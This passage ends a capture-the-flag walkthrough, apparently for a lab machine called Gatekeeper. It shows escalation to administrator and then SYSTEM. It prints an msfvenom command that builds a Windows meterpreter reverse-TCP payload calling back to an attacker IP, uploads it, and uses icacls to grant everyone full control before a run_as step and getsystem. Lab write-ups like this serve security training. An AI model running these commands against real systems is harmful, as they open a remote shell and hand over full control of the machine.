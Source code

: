 Now, the final step is to see what kind of privileges the user, mayor has. Let's create another payload and upload it to the target machine, then we can try to run it as mayor:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.9.87.151 LPORT=6500 -f exe -o rTCP.exe
```
```bash
upload rTCP.exe .
```
We also need to make sure that rTCP.exe can be run by everyone, let's use icacls for that:
```bash
icacls rTCP.exe /grant Everyone:(F)
```
Now, we are ready to configure our multi handler first and then run_as modules:

![Final Exp](finalRootExp.png)
![Runas](msfconsolerunas.png)

After running the last module, we'll receive a meterpreter session and if we check the user id and privileges, we'll see that we have admin privileges:

![Admin User](adminUser.png)

Now, we can go to Desktop and look for the root flag:

![Root Flag](rootFlag.png)

Since we are admin, we can try to become the system by using ```getsystem``` command:

![Getsystem](getsystem.png)

That was a long journey and I hope you enjoyed this walkthrough.
Thank you for reading.

[<= Go Back to Gatekeeper Menu](GatekeeperMain.md)

[<= Go Back to BOF Menu](BOFMain.md)

[<= Go Back to Main Menu](index.md)
